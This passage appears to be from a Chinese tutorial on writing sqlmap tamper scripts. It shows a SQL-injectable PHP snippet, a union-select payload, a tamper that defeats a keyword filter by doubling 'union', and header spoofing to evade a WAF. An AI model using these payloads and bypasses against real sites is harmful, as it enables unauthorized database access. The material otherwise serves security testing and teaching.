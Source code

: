 ```php
$id = trim($POST($id),'union');
$sql="SELECT * FROM users WHERE id='$id'";
```

而我们的payload为

```
-8363'  union select null -- -
```

这里union被过滤掉了，将导致payload不能正常执行，那么就可以编写这样的tamper

```python
def tamper(payload, **kwargs):
    return payload.replace('union','uniounionn')
```

保存为replaceunion.py，放到sqlmap/tamper/下

执行的时候带上 --tamper=replaceunion 的参数，就可以绕过该过滤规则

[官方tamper](https://blog.csdn.net/hxsstar/article/details/22782627)

+   dependencies()

声明脚本的适用/不适用范围，可为空

```python
sqlmap/tamper/echarunicodeencode.py

from lib.core.common import singleTimeWarnMessage

def dependencies():
singleTimeWarnMessage("tamper script '%s' is only meant to be run against ASP or ASP.NET web applications" % os.path.basename(__file__).split(".")[0])

# singleTimeWarnMessage() 用于在控制台中打印出警告信息
```

+   kwargs

在官方提供的47个tamper脚本中，kwargs参数只被使用了两次，两次都只是更改了http-header，这里以其中一个为例进行简单说明

```
# sqlmap/tamper/vanrish.py

def tamper(payload, **kwargs):
    headers = kwargs.get("headers", {})
    headers["X-originating-IP"] = "127.0.0.1"
    return payload
```

这个脚本是为了更改 X-originating-IP，以绕过WAF，另一个 kwargs 的使用出现于 xforwardedfor.py，也是为了改 header 以绕过 waf

+   部分常数值

```python
# sqlmap/lib/enums.py

class PRIORITY:
    LOWEST = -100
    LOWER = -50
    LOW = -10
    NORMAL = 0
    HIGH = 10
    HIGHER = 50
    HIGHEST = 100

class DBMS:
    ACCESS = "Microsoft Access"
    DB2 = "IBM DB2"
    FIREBIRD = "Firebird"
```